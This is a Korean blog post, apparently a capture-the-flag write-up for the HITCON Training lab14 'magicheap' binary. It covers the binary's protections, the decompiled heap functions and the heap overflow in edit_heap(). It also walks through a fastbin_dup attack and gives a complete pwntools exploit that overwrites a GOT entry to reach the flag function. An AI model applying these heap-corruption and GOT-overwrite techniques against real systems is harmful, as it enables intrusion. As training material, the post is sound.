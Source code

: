 ```yaml
---
layout: post
title: "[HITCON Training] lab14"
comments : true
category : War Game
---
```


# 문제
***

magicheap 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
magicheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ff750591e88f96896be63694b6ea85d337fce3a, not stripped
```

바이너리 코드

__create_heap()__
```c
unsigned __int64 create_heap()
{
  ...

  for ( i = 0; i <= 9; ++i )
  {
    if ( !heaparray[i] )
    {
      printf("Size of Heap : ");
      read(0, &buf, 8uLL);
      size = atoi(&buf);
      heaparray[i] = malloc(size);
      ...
      printf("Content of heap:", &buf);
      read_input(heaparray[i], size);
      puts("SuccessFul");
      return __readfsqword(0x28u) ^ v4;
    }
  }
  ...
}
```

__edit_heap()__
```c
unsigned __int64 edit_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v2 = atoi(&buf);
  ...
  if ( heaparray[v2] )
  {
    printf("Size of Heap : ", &buf);
    read(0, &buf, 8uLL);
    v0 = atoi(&buf);
    printf("Content of heap : ", &buf);
    read_input(heaparray[v2], v0);
    puts("Done !");
  }
  ...
}
```

__delete_heap()__
```c
unsigned __int64 delete_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v1 = atoi(&buf);
  ...
  if ( heaparray[v1] )
  {
    free(heaparray[v1]);
    heaparray[v1] = 0LL;
    puts("Done !");
  }
  ...
}
```

__edit_heap()__ 함수에서 overflow 취약점이 존재한다. 이를 통해서 다음 chunk의 header, fd, bk 등을 overwrite할 수 있다.
<br/>
이를 통해서 lab12 문제를 풀 때 사용했던 fastbin_dup 공격이 가능하다.
<br/>

## exploit 방법
1. 0x40 짜리 chunk를 3개 생성한다.
2. 세 번째 chunk와 두 번쨰 chunk를 free한다.
3. __edit_heap()__ 함수를 이용해서 두 번째 chunk의 fd를 (stack_chk_got -6)로 덮어쓴다.
4. 0x30 짜리 chunk를 2개 생성하면 두 번째 chunk의 주소가 (stack_chk_got + 10 )이 된다. 
5. printf의 got를 flag를 읽는 __l33t()__ 함수의 주소로 덮어쓴다.
<br/>

__문제 해설에서는 unsorted bin attack을 이용했다. 이 공격에 대해서 대략적인 이해만 했다. 다음에 fake arena 생성 방법에 대해서 공부해보자.__

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,size,content):
	p.recvuntil("choice :")
        p.send("2"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("3"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab14/magicheap"

p=process(file_path)

stack_chk_got=0x602030
cat_flag=0x400c23


create_heap(0x30,"ha_weeeee^___^")
create_heap(0x30,"ba_weeeee^___^")
create_heap(0x30,"weeeee^___^")

delete_heap("2")
delete_heap("1")

pay="A"*0x30
pay+="\x00"*8
pay+="\x41"+"\x00"*7
pay+=p64(stack_chk_got-6)

edit_heap("0",len(pay),pay)

create_heap(0x30,"g00000000d")
create_heap(0x30,"sosim")

pay2="\x40"+"\x00"*5 #system
pay2+=p64(cat_flag)

edit_heap("2",len(pay2),pay2)

p.recvuntil("-\n")
p.recvuntil("-\n")
p.recvuntil("-\n")

print p.recv()
```

